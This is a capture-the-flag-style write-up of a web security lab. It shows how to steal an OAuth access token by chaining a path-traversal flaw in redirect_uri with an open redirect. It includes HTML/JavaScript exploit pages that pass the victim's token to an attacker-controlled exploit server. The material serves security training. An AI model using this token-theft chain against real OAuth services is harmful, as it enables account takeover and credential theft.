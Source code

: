 That `access_token` is later used in another request to the oauth service:
```
GET /me HTTP/2
Host: oauth-0acd00cc0315bc0580bc1fc6024b0017.oauth-server.net
Authorization: Bearer ImLOukbIxMWIdzBOLSzy0V9L4EKnz5bwwO98pVLprKc
```
Which responses:
```
{
    "sub":"wiener",
    "apikey":"ilEYaNYP3rb21bcKuXf3dGex0wDr3vbc",
    "name":"Peter Wiener",
    "email":"wiener@hotdog.com",
}
```

We want to steal `access_token` from user but we can't specify their own server in `redirect_uri`. But we see that **`redirect_uri` is vulnerable to path traversal**.

Further site exploration reveals that there's an open redirect vulnerability:
```bash
<a href="/post/next?path=/post?postId=7">| Next post</a>
```

Specifically `?path` url query param can be changed to a url of our own external server

Therefore we can change `redirect_uri`:
```
?redirect_uri=https://ff.web-security-academy.net/oauth-callback/../post/next?path=${attackers_server_uri}
```

And therfore the exploit can look like the following:
```bash
<html>
    <script>
        const attackers_server_uri = "https://exploit-ff.exploit-server.net/exploit"
        const redirect_uri = `https://ff.web-security-academy.net/oauth-callback/../post/next?path=${attackers_server_uri}`

        document.location = `https://oauth-ff.oauth-server.net/auth?client_id=mql1yse6vpmkaeohozcdh&redirect_uri=${redirect_uri}&response_type=token&nonce=-626744892&scope=openid%20profile%20emaill`
    </script>
</html>
```

Lab specific problem:
In the lab we have to use the same `/exploit` url of the same exploit server for exploit delivery and for extraction of `access_token` from the url after the user is redirected back from the oauth service to our exploit server. That's why we need to have a bit more trickier exploit:
```bash
<html>
    <script>
        if (!document.location.hash) {
            const attackers_server_uri = "https://exploit-0a9e0082035bbcde80c320f6018700ee.exploit-server.net/exploit"
            const redirect_uri = `https://0a7e005f0376bcf1807721b000fb00dd.web-security-academy.net/oauth-callback/../post/next?path=${attackers_server_uri}`

            document.location = `https://oauth-0acd00cc0315bc0580bc1fc6024b0017.oauth-server.net/auth?client_id=mql1yse6vpmkaeohozcdh&redirect_uri=${redirect_uri}&response_type=token&nonce=-626744892&scope=openid%20profile%20emaill`
        } else {
            window.location = '/?'+document.location.hash.substr(1)
        }
    </script>
</html>
```
